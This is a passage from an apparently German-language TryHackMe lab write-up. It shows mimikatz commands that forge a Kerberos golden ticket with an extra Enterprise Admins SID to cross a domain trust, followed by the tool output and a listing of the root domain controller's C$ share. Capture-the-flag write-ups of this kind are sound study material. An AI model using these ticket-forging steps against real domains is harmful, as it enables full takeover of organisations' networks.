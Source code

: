 Somit haben wir alles was wir brauchen, um das Goldene Ticket zu erstellen.


## Exploiting Domain Trusts


Wir starten wieder mimikatz, um das Goldene Ticket zu erstellen.

   > privilege::debug

   > kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /aes256:9b52d4ffae227e50025574e4347783ee4f4f6c01c110b1ad4c715d0c977558ca /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt

```
User      : Administrator
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185-1001
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3330634377-1326264276-632209373-519 ;
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt
Service   : krbtgt
Lifetime  : 2/19/2024 10:11:16 PM ; 2/16/2034 10:11:16 PM ; 2/16/2034 10:11:16 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ za.tryhackme.loc' successfully submitted for current session
```

Können wir uns etwas auf THMROOTDC ansehen?

   > dir \\thmrootdc.tryhackme.loc\c$

   ```

    Directory: \\thmrootdc.tryhackme.loc\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/15/2018   8:19 AM                PerfLogs
d-r---        3/21/2020   8:31 PM                Program Files
d-----        3/21/2020   8:28 PM                Program Files (x86)
d-----        4/25/2022   5:50 PM                tmp
d-r---        4/27/2022   7:54 AM                Users
d----l        4/25/2022   5:50 PM                vagrant
d-----        4/27/2022   6:29 PM                Windows
-a----         1/4/2022   7:47 AM            103 delete-vagrant-user.ps1
-a----         5/1/2022   8:42 AM             31 root_dns_entries.csv
-a----         5/1/2022   9:07 AM           1767 thm-network-setup-dc.ps1
```

Sieht gut aus. Wir haben Zugriff.

### Damit ist dieser Room erledigt

